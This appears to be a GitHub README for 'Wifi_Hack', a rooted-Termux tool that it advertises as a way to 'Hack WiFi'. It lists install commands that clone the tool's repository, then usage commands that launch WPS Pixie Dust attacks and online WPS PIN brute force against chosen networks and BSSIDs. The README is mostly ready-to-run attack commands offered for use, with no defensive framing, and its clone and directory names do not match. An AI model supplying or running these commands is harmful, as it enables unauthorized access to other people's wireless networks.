 ## Wifi_Hack

### Hack WIfi Using Termux! (Requires Root)

<p align="center"><img src="https://i.ibb.co/K74g0SC/hulu.jpg"></p>

### Installation :

```bash

$ apt update && apt upgrade

$ pkg install -y root-repo

$ pkg install -y git tsu python wpa-supplicant pixiewps iw

$ git clone https://github.com/piomrox/Rox.git

$ cd Wifi_Hack

$ chmod +x roxhack.py

$ sudo python roxhack.py --help

```

#### Example : `sudo python roxhack.py -i wlan0 -K`

#### Note: 

**First turn off your Wifi.**

- Show avaliable networks and start Pixie Dust attack on a specified network.

- `sudo python roxhack.py -i wlan0 -K`

- - Start Pixie Dust attack on a specified BSSID:

`sudo python roxhack.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`

- Launch online WPS bruteforce with the specified first half of the PIN:

- `sudo python roxhack.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`

### Troubleshooting

**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**

